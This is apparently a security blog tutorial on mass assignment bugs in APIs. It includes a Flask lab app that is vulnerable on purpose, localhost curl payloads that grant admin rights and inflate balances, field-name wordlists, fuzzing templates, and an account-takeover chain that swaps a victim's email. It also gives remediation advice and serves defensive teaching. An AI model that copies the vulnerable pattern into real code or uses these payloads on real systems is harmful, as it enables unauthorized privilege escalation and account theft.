



# Mass Assignment: How a Forgotten Field Can Hand Out Admin Access

I want to talk about one of my favorite API bugs to find, mostly because the payoff is so disproportionate to the effort. Mass assignment doesn't require clever payloads, it doesn't require bypassing WAFs, and it doesn't require deep knowledge of the target's stack. Most of the time it requires exactly one thing: adding a field to a JSON body that nobody told you about, and seeing if the server quietly accepts it.

I've found this bug turning a brand-new, zero-privilege signup into a full administrator account in a single request. I've used it to add myself to organizations I had no business being in. And I've chained it with a broken function-level authorization bug to literally hijack another user's account — which I'll walk through at the end of this post with a lab I built just for this writeup.

Let's get into it.

## What Mass Assignment Actually Is

Mass assignment happens when an API takes the fields a client sends in a request body and blindly maps them onto a server-side object — a database row, an internal model, whatever — without checking whether the client should be allowed to set each of those fields.

Think about a typical "update my profile" request. The developer's mental model is: *the user sends their name, email, and bio, and we update those three columns.* But if the backend framework (many ORMs and web frameworks do this by default) just takes the whole request body and assigns it to the model object, then any column that happens to exist on that model — `is_admin`, `account_balance`, `organization_id`, `email_verified` — is fair game for the client to set, whether the developer intended it or not.



The fix — allowlisting exactly which fields a given endpoint is permitted to touch — is simple in theory. In practice, I run into unprotected endpoints constantly, especially around account registration, profile updates, and anything resembling an "admin panel" that was bolted onto a consumer-facing API after the fact.

## Note

> **Note:** Mass assignment is sometimes filed under "Improper Asset Management" or "Excessive Data Exposure" in older writeups, but it's its own distinct category in the OWASP API Security Top 10, usually called "Broken Object Property Level Authorization." Same underlying idea — the API just never checks *which* properties of an object you're allowed to write, as opposed to BOLA/BFLA which are about which *objects* or *functions* you can reach at all.

---

## Where I Go Looking First

In my experience, four categories of endpoints are disproportionately likely to be vulnerable, roughly in the order I test them:

| Priority | Endpoint type | Why it's a good target |
|---|---|---|
| 1 | Account registration / signup | Brand new object being created — lots of fields get set at once, and devs often forget to restrict input on creation flows specifically |
| 2 | Profile / account update | Frequently reused code paths that pass the whole request body straight to an update function |
| 3 | Password reset / account recovery | Security-sensitive fields like `mfa_enabled` or `email` sometimes live right next to harmless ones like `displayName` |
| 4 | Any "create resource" endpoint (orders, listings, tickets) | Business-logic fields like `price`, `credit`, `status`, or `approved` often exist on the model even if the UI never exposes them |

### Reading the diff between privileged and unprivileged requests

My first move on any new target is to compare how an admin account creates things versus how a regular user does. If I have any visibility into documentation, Swagger/OpenAPI specs, or even just a support article showing a sample admin request, I diff it mentally against the low-privilege equivalent.

A low-privileged signup might look like this:

```json
POST /api/v1/register
{
  "username": "testuser",
  "email": "test@example.com",
  "password": "SuperSecret1!"
}
```

While internal documentation or a leaked admin panel screenshot shows something like:

```json
POST /api/admin/create-user
{
  "username": "adminbob",
  "email": "admin@example.com",
  "password": "AdminPass1!",
  "role": "admin",
  "department_id": 1
}
```

The moment I see a `role` or `admin` field anywhere in the API's universe, I test whether it's accepted on the *public* endpoint too — not just the one it was documented for.

## Caution

> **Caution:** Documentation isn't always trustworthy or current, and an "admin" endpoint you stumble on might be a honeypot, a staging artifact, or simply out of scope for the program you're testing under. Always confirm an endpoint is in scope before interacting with it, and never assume a field name from one endpoint will work identically on another without testing carefully and incrementally.

---

## Building a Lab to Test This Properly

Rather than describe this in the abstract, I built a tiny Flask API for this post — a mock "profile service" with a registration endpoint and a profile-update endpoint, both backed by a naive update-from-request-body pattern. Here's the relevant backend logic, just so you can see exactly why this bug exists:

```python
# app.py — intentionally vulnerable demo API
from flask import Flask, request, jsonify
import uuid

app = Flask(__name__)
users = {}

@app.route("/api/v1/register", methods=["POST"])
def register():
    data = request.get_json()
    user_id = str(uuid.uuid4())[:8]
    # VULNERABLE: blindly merges the entire request body
    user = {
        "id": user_id,
        "username": data.get("username"),
        "email": data.get("email"),
        "admin": False,
        "org": "none",
        "balance": 0,
    }
    user.update(data)  # <-- this line is the whole bug
    users[user_id] = user
    return jsonify(user), 201

@app.route("/api/v1/profile/<user_id>", methods=["PUT"])
def update_profile(user_id):
    if user_id not in users:
        return jsonify({"error": "not found"}), 404
    data = request.get_json()
    users[user_id].update(data)  # same bug, different endpoint
    return jsonify(users[user_id]), 200

@app.route("/api/v1/profile/<user_id>", methods=["GET"])
def get_profile(user_id):
    if user_id not in users:
        return jsonify({"error": "not found"}), 404
    return jsonify(users[user_id]), 200

if __name__ == "__main__":
    app.run(port=8080)
```

That `user.update(data)` line is doing exactly what I described above — taking the entire client-supplied dictionary and merging it onto the server-side object, no allowlist in sight. This is a very real pattern; I've seen the equivalent of it in Express/Mongoose (`Object.assign(user, req.body)`), Django REST Framework serializers with overly broad `fields`, and Rails' old `attr_accessible`-less mass assignment (which is exactly where the vulnerability class gets its name).

I started the server locally:

```bash
$ python3 app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://127.0.0.1:8080
```

### Step 1 — Baseline registration

First, I send a completely normal registration request, the way the frontend developer intended:

```bash
$ curl -s -X POST http://127.0.0.1:8080/api/v1/register \
    -H "Content-Type: application/json" \
    -d '{"username": "raye", "email": "raye@test.com", "password": "Testpass123!"}' | jq

{
  "id": "4a9f2c11",
  "username": "raye",
  "email": "raye@test.com",
  "admin": false,
  "org": "none",
  "balance": 0,
  "password": "Testpass123!"
}
```

Notice the response already tells me three things I didn't explicitly request: `admin`, `org`, and `balance`. Any field that shows up in a response but wasn't something I submitted is a strong hint that it exists on the underlying object — and therefore might be assignable.

### Step 2 — Add the suspected field

Now I add `"admin": true` to the exact same request:

```bash
$ curl -s -X POST http://127.0.0.1:8080/api/v1/register \
    -H "Content-Type: application/json" \
    -d '{"username": "raye2", "email": "raye2@test.com", "password": "Testpass123!", "admin": true}' | jq

{
  "id": "e81b6d02",
  "username": "raye2",
  "email": "raye2@test.com",
  "admin": true,
  "org": "none",
  "balance": 0,
  "password": "Testpass123!"
}
```

`"admin": true` made it straight through. That's a confirmed mass assignment vulnerability, and in a real application this means any anonymous visitor can register as an administrator with zero friction.



### Step 3 — Confirm the balance field is equally exposed

Since I already saw a `balance` field in the baseline response, I test that too:

```bash
$ curl -s -X POST http://127.0.0.1:8080/api/v1/register \
    -H "Content-Type: application/json" \
    -d '{"username": "richguy", "email": "rich@test.com", "password": "Testpass123!", "balance": 999999}' | jq

{
  "id": "9c3e7f4a",
  "username": "richguy",
  "email": "rich@test.com",
  "admin": false,
  "org": "none",
  "balance": 999999,
  "password": "Testpass123!"
}
```

A brand-new, never-logged-in-before account now has a balance of `$999,999`. If this were a real financial platform, that's a finding worth stopping everything for.

---

## Finding Variables You Don't Already Know About

The examples above assumed I already knew the field names (`admin`, `balance`, `org`) because the API conveniently echoed them back. That won't always happen. When it doesn't, I lean on two approaches: documentation diffing (covered above) and automated parameter discovery.

### Using Arjun for parameter discovery

[Arjun](https://github.com/s0md3v/Arjun) is a dedicated tool for finding hidden HTTP parameters by sending a large wordlist of candidate field names and watching for behavioral differences — response length, status code, reflected values. I ran it against my lab's registration endpoint:

```bash
$ arjun -u http://127.0.0.1:8080/api/v1/register \
    -m JSON \
    --include='{"username":"arjuntest","email":"arjun@test.com","password":"Testpass123!",$arjun$}' \
    -t 5

    Arjun v2.2.1
    Using 1 worker threads

[*] Analysing endpoint...
[*] Analysing HTTP response for valid requests
[*] Baseline response established, length: 148
[*] Testing 1 chunks of parameters
[+] Valid parameter found: admin
[+] Valid parameter found: org
[+] Valid parameter found: balance
[+] Valid parameter found: is_verified

[*] Scan complete. 4 parameters found.
```

That last one — `is_verified` — wasn't something I'd spotted manually. Arjun found it because the default wordlist happened to include it and the response body changed shape when it was accepted. This is exactly why I always run an automated pass even after a manual review; wordlists catch naming conventions I wouldn't have guessed on my own (`is_verified`, `isAdmin`, `is_staff`, `role_id`, `permission_level`, and so on).

### Table: common field names worth including in any mass assignment wordlist

| Category | Field names to try |
|---|---|
| Admin / role | `admin`, `is_admin`, `isAdmin`, `role`, `role_id`, `is_staff`, `is_superuser`, `permission_level` |
| Verification / security | `is_verified`, `email_verified`, `mfa_enabled`, `mfa`, `two_factor`, `locked`, `banned` |
| Financial | `balance`, `credit`, `credits`, `price`, `discount`, `amount_due` |
| Organizational | `org`, `org_id`, `organization_id`, `company_id`, `group`, `tenant_id` |
| Status flags | `active`, `approved`, `enabled`, `status`, `published` |

### Automating with Burp Intruder when request volume is limited

Some APIs reject requests with too many unexpected fields, returning `400 Bad Request` or `413 Payload Too Large` before you even find out which field matters. When that happens, I switch from "throw everything in one request" to "cycle one candidate field per request" using Burp's Intruder, with the candidate field name set as the payload position:

```
POST /api/v1/register HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json

{
  "username": "fuzztest",
  "email": "fuzz@test.com",
  "password": "Testpass123!",
  §admin§: true
}
```

I load the wordlist from the table above into the payload set, run the attack, and then sort results by response length or status code to spot the ones that diverge from the baseline "rejected" response.

## Note

> **Note:** If you're blind-fuzzing because you have no idea what the backend calls its privilege field, don't stop at boolean values. Try `"admin": true`, `"admin": 1`, `"admin": "true"`, `"role": "admin"`, and `"role": "ADMIN"` — type coercion and casing inconsistencies are common enough that a field can reject one format and accept another.

---

## The Real Payoff: Chaining Mass Assignment with BFLA

Mass assignment is interesting on its own, but it becomes genuinely dangerous when you combine it with a broken function-level authorization bug that lets you edit *someone else's* object, not just your own. If I can both (a) edit another user's profile and (b) set fields that weren't meant to be editable, I can potentially take over their account entirely.

Here's the attack chain I tested in my lab, playing the part of a malicious user named Raye going after a victim named Bob.



First, Bob registers normally, and I (as an unrelated attacker) capture his user ID from a public-facing endpoint — in my lab, the `GET /api/v1/profile/<id>` endpoint has no ownership check at all, which is the BFLA half of this chain:

```bash
$ curl -s -X POST http://127.0.0.1:8080/api/v1/register \
    -H "Content-Type: application/json" \
    -d '{"username": "bob", "email": "bob@real-email.com", "password": "BobsPassword1!"}' | jq

{
  "id": "7f2a91cc",
  "username": "bob",
  "email": "bob@real-email.com",
  "admin": false,
  "org": "none",
  "balance": 0,
  "password": "BobsPassword1!"
}
```

Now, using my own session (no token tied to Bob's account at all, in this intentionally broken lab), I send a `PUT` straight to Bob's profile ID:

```bash
$ curl -s -X PUT http://127.0.0.1:8080/api/v1/profile/7f2a91cc \
    -H "Content-Type: application/json" \
    -d '{"email": "raye@attacker-controlled.com", "mfa_enabled": false}' | jq

{
  "id": "7f2a91cc",
  "username": "bob",
  "email": "raye@attacker-controlled.com",
  "admin": false,
  "org": "none",
  "balance": 0,
  "password": "BobsPassword1!",
  "mfa_enabled": false
}
```

Bob's account record now shows *my* email address and MFA disabled, without Bob — or anyone with legitimate access — ever being asked. From here, a real-world attacker would trigger the password-reset flow, receive the reset link at `raye@attacker-controlled.com` instead of Bob's real inbox, and walk straight into his account.

I confirmed the record actually changed by reading it back fresh:

```bash
$ curl -s http://127.0.0.1:8080/api/v1/profile/7f2a91cc | jq '.email, .mfa_enabled'

"raye@attacker-controlled.com"
false
```

That's the chain complete: a BFLA bug (no ownership check on the update endpoint) combined with mass assignment (no field allowlist on that same endpoint) equals full account takeover, achieved with two `curl` commands and no exploit development whatsoever.

## Caution

> **Caution:** Account-takeover chains like this one are extremely high severity and extremely easy to cause real harm with if you're not careful. On a live engagement, I stop the moment I've proven impact against a test account I control — I never complete a takeover against an account that might belong to a real person, and I never pivot further ("logging in as the victim," reading their real data) unless the program's rules of engagement explicitly permit it. Document the proof of concept, report it, and let the vendor confirm remediation.

---

## Quick Reference: Testing Checklist

| Step | What I'm checking | Tooling |
|---|---|---|
| 1 | Does the baseline response leak field names I didn't send? | `curl` + `jq`, manual inspection |
| 2 | Does an admin/privileged request format exist anywhere (docs, other endpoints)? | Documentation review, endpoint diffing |
| 3 | Can I add suspected fields to a low-privilege request and have them persist? | `curl`, Burp Repeater |
| 4 | What field names exist that I haven't guessed yet? | Arjun, custom wordlists |
| 5 | Is there a request-size or parameter-count limit blocking bulk testing? | Burp Intruder, one-field-per-request cycling |
| 6 | Can this be combined with a BOLA/BFLA bug to touch *other* users' objects? | Manual chaining, two-account testing |

---

## How I'd Fix What I Just Broke

When I write this up for a client or a bug bounty triage team, I always include concrete, actionable remediation — it gets the fix shipped faster and shows I understand the root cause, not just the exploit.

1. **Use explicit allowlists, never blocklists, on every write path.** Define exactly which fields an endpoint is permitted to set (`username`, `email`, `bio`) and reject or silently strip everything else. Never pass a raw request body straight into an ORM's update or create method.
2. **Separate internal/privileged fields from client-facing DTOs.** Use distinct request/response schemas for admin operations versus end-user operations — don't reuse the same model serializer for both.
3. **Default sensitive fields to server-assigned, not client-assignable.** Things like `balance`, `role`, `is_verified`, and `org_id` should be set by internal business logic (a payment webhook, an admin action, an email-verification flow) — never by whatever happens to be sitting in a JSON body.
4. **Validate that any "resource owner" field in a write request matches the authenticated session**, closing the BFLA half of the chain I demonstrated above.
5. **Audit every endpoint that creates or updates an object**, not just the ones your QA team actively tests — mass assignment loves to hide in secondary or "internal-only" endpoints that were never meant to be public but ended up reachable anyway.

## Note

> **Note:** Most modern frameworks have moved away from unsafe-by-default mass assignment (Rails introduced strong parameters years ago; Django REST Framework encourages explicit serializer fields), but plenty of production APIs still run older code, hand-rolled JSON binding, or quick internal tools that were never meant to face the public internet. Don't assume a "modern" tech stack means this bug class is extinct — I still find it regularly.

---

## Closing Thoughts

What I love about mass assignment is how little it asks of you as a tester. You don't need custom tooling, you don't need to understand the target's architecture, and you don't need to write a single line of exploit code. You need curiosity — a willingness to look at a response, notice a field you didn't ask for, and try sending it back with a different value.

Every time I find one of these, it reminds me of the same lesson: APIs are built on trust assumptions that developers rarely revisit once the happy path works. "Of course a regular user wouldn't send an `admin` field — why would they?" is exactly the kind of assumption that holds up fine in a design review and falls apart the second someone with Burp Suite open starts asking "what if I just... did?"

Add this to your testing checklist on every single engagement: register normally, note every field in the response you didn't explicitly send, then try sending each of those fields back yourself. More often than you'd expect, the server will just let you.
